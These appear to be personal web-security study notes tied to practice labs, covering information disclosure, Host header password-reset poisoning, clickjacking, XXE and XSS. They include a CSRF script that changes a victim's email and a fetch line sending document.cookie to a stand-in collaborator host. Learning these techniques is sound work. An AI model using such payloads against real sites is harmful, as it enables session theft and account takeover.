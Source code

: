 ### Information disclosure
- In php websites, debug file with the output of phpinfo() is `/cgi-bin/phpinfo.php`
- Look for backups: /backup folder or: `file.ext~, #file.ext#, ~file.ext, file.ext.bak, file.ext.tmp, file.ext.old, file.bak, file.tmp and file.old`
- Look for robots.txt or sitemap.xml
- The `TRACE` `HTTP request` method is primarily used for diagnostic purposes. It echoes back the received request so that the client can see what changes or additions might have been made by intermediate servers.
    - Useful to determine if additional headers were appended by proxy servers.
- CHECK VERSION CONTROL: see if there is a .git folder on the server, and if there is extract it with `git-dumper`

```javascript
<script>
var ref = new XMLHttpRequest();
ref.open('post', 'https://0a3c00de0493af8582f1f131005b00dd.web-security-academy.net/my-account/change-email', true);
ref.withCredentials = true;
ref.send('email=test@ahdyue.net');
</script>
```
- Some applications trust the HOST header **TOO MUCH**
    - -> password reset poisoning: forgot-password link generated dynamically based on the HOST header address -> change host header to an attacker controlled website -> when the user clicks the "password-reset link" it will appear with the reset token in the attacker's logs so that it can use it on the real vulnerable app
    - -> HOST header to allow admin to localhost!!!

### Clickjacking
- create 2 layers: decoy website + target website
- decoy website is put behind target website, and target website is put with opactiy 0.00001 = transparent 
- the user only sees the decoy website, that is actually behind the real interface of the target. If you put buttons aligned on decoy with target, when they "click" on the decoy button -> it actually clicks the layer 1, which is the target without them knowing !!!
- PREVENTION: `frame-busters!!!` scripts that don't allow the website to be framed inside an iframe -> makes elements visible, takes over top-window, doesn't allow actions on invisible elements!

### XXE - XML external entity injection
- view files on filesystem of server + interact with backend systems

### Essential skills
- scan a specific insertion point
- if you find XSS with OAST technique, send over the cookies of the administrator (stored XSS)
- in JS, you have 2 functions for `normalizing the cookies`
    - `encodeURI` - leaves `=`,`&` and `?` intact since they have a meaning in the URI
    - `encodeURIComponent` - encodes ALL in order for it to be processed as a URL component
- STRING INTERPOLATION IN JAVASCRIPT
    - x = `Hello ${x}`
- ex: fetch('http://collaborator/${encodeURIComponent(document.cookie)}')